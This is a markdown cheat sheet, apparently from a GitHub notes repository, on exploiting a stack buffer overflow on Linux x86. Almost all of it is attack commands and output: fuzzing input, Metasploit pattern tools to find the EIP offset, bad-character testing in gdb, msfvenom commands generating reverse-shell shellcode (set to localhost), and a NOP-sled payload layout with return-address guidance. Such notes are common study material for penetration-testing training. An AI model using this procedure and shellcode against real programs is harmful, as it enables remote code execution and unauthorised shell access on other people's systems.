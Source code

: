 # buffer overflow Linux x86

## Take control EIP

- Get rough estimate offset
```shell
$(python -c 'print("A" * 1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP
```shell
$(python -c 'print("A" * 1000 + "B" * 4)')
```

## Determine shellcode length

- Generate shellcode using `msfvenom`

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

## Identify bad chars

- `CHARS` string below.
```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

- Start inspecting bad characters. The 265 is the length of `$CHARS` at this time.

```shell
$(python -c 'print("A" * (1000 - 265) + "\x00\x01...\xff" + "B" * 4)')
```

- Use the following command to inspect the stack.

```shell
(gdb) x/2000xb $esp+500
```

- Iterate the process. Example.

```shell
# remove \x00\x09
run $(python -c 'print("A" * (2060 - 254) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a" + "B" * 4)')
```

## Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. The `\x90` chars are NOP instructions.

```shell
run $(python -c 'print("A" * (2060 - 120 - 90) + "\x90" * 120 + "shellcode" + "B" * 4)')
```

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Identify return address

- Get a memory address where *only* NOPs are located to tell the EIP to jump to it.
- This memory address must *not* contain any of the bad characters we found earlier.
- Pass the address to the input *backwards* in case of little Endian
